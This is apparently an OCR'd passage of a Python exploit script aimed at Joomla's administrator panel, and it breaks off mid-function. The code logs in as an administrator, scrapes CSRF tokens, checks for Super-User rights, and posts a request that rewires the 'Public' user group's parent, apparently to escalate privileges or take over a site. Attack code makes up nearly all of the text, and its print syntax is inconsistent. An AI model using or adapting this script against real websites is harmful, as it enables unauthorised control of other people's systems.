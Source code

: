     def extract_token(resp):
        match = re.search(r'name="([a-f0-9]{32})" value="1"', resp.text, re.S)
        if match is None:
            print("[-] Cannot find CSRF token!\n")
            return None
        return match.group(1)


    def try_admin_login(sess, url, uname, upass):
        admin_url = url + '/administrator/index.php'
        print('[+] Getting token for admin login')
        resp = sess.get(admin_url, verify=True)
        token = extract_token(resp)
        if not token:
            return False
        print('[+] Logging in to admin')
        data = {
            'username': uname,
            'passwd': upass,
            'task': 'login',
            token: '1'
        }
        resp = sess.post(admin_url, data=data, verify=True)
        if 'task=profile.edit' not in resp.text:
            print('[!] Admin Login Failure!')
            return None
        print('[+] Admin Login Successfully!')
        return True


    def checkAdmin(url, sess):
        print("[+] Checking admin")
        url_check = url + '/administrator/index.php?option=com_users&view=users'
        resp = sess.get(url_check, verify=True)
        token = extract_token(resp)
        if not token:
            print "[-] You are not administrator!"
            sys.exit()
        return token


    def checkSuperAdmin(url, sess):
        print("[+] Checking Superadmin")
        url_check = url + '/administrator/index.php?option=com_config'
        resp = sess.get(url_check, verify=True)
        token = extract_token(resp)
        if not token:
            print "[-] You are not Super-Users!"
            sys.exit()
        return token


    def changeGroup(url, sess, token):
        print("[+] Changing group")
        newdata = {
            'jform[title]': 'Public',
            'jform[parent_id]': 100,
            'task': 'group.apply',
            token: 1
        }
        newdata['task'] = 'group.apply'
        resp = sess.post(url + "/administrator/index.php?option=com_users&layout=edit&id=1", data=newdata,
                         verify=True)
        if 'jform[parent_id]' not in resp.text:
            print('[!] Maybe failed to change group...')
            return False
        else: